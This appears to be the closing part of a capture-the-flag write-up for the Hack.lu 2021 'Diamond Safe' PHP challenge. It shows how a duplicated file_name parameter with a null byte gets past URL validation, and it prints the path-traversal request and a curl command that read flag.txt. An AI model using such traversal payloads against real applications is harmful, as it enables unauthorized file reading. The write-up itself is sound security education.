 The key here was to try some different parsing behaviour (or buggy, or strange, ...) in both implementations. The intentation was to make the **file_name** be Diamond.txt inside ```$params``` the **check_url**, but a different **file_name** for download.php, so it would validate with one, but download another.

I just "fuzzied" some small changes, like putting a second file_name without the "=":

```text
https://diamond-safe.flu.xxx/download.php?h=95f0dc5903ee9796c3503d2be76ad159&file_name=Diamond.txt&file_name
```

It worked to separate the validation from the download, beucase of the buggy ```$param += '='``` in **check_url()**, that generates null string instead of concatenation. But the file_name in download.php was still null and it was not enough to get the flag.

After some more fuzz... guessing, I got this:

```text
https://diamond-safe.flu.xxx/download.php?h=95f0dc5903ee9796c3503d2be76ad159&file_name=Diamond.txt&file_name%00=../../../flag.txt
```

It turns out the ```%00``` is ignored in the php-fpm implementation, but not in the **check_url**. And then we got our LFI:

```bash
$ curl --path-as-is 'https://diamond-safe.flu.xxx/download.php?file_name=Diamond.txt&h=95f0dc5903ee9796c3503d2be76ad159&file_name%00=../../../flag.txt' \
>   -H 'Neptunian: neptunian-value' \
>   -H 'Cookie: PHPSESSID=3d9dc29debc998c9c40b3007319ebed5'

flag{lul_php_challenge_1n_2021_lul}
```

### Day is Won!

```flag{lul_php_challenge_1n_2021_lul}```

![Main Page](img/victory_by_karatastamer_d5t1lsz.jpg)
*Credits: https://www.deviantart.com/karatastamer/art/Victory-351114659*

## References

* Hack.lu CTF 2021: https://flu.xxx/
* CTF Time Event: https://ctftime.org/event/1452/
* Challenge Creator: [@kunte_](https://twitter.com/kunte_ctf)
* SQL Injection: https://owasp.org/www-community/attacks/SQL_Injection
* Format String Attack: https://owasp.org/www-community/attacks/Format_string_attack
* Local File Inclusion: https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion
* Path Traversal: https://owasp.org/www-community/attacks/Path_Traversal
* ASIS CTF 2021 - ASCII Art as a Service: https://fireshellsecurity.team/asisctf-ascii-art-as-a-service/
* m0lecon CTF 2021 - Waffle Write-Up: https://neptunian.medium.com/m0lecon-ctf-2021-teaser-bypassing-waf-5393c1c5f278
* Repo with the artifacts discussed here: https://github.com/Neptunians/hack.lu-ctf-2021
* Team: [FireShell](https://fireshellsecurity.team/)
* Team Twitter: [@fireshellst](https://twitter.com/fireshellst)
* Follow me too :) [@NeptunianHacks](twitter.com/NeptunianHacks)